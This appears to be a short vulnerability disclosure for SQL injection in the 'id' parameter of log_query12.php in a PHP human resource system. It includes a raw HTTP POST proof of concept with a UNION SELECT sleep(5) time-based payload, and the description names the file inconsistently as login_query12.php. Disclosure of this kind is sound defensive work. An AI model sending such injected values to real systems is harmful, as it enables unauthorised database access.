

# Human Resource Integrated System has SQL Injection in log_query12.php

## supplier 

https://code-projects.org/human-resource-integrated-system-in-php-with-source-code/

## Vulnerability file

log_query12.php

## Describe

The `id` parameter in login_query12.php is not properly sanitized or parameterized, making it vulnerable to SQL injection. This vulnerability can be exploited by injecting malicious SQL code to manipulate database queries. An attacker could leverage a timing-based SQL injection method to intentionally delay database responses using functions such as SLEEP().



## POC

```
POST /log_query12.php HTTP/1.1
Host: hris
Content-Length: 108
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://hris
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.234.158/hris/login_attendance2.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

save=1&date=16&id=-1'+union+select+1,1,1,1,1,1,1,1,1,1,1,1,1,sleep(5)--+
```

Send this request, you can observe an additional 5 seconds time delay triggered by the time-based injection.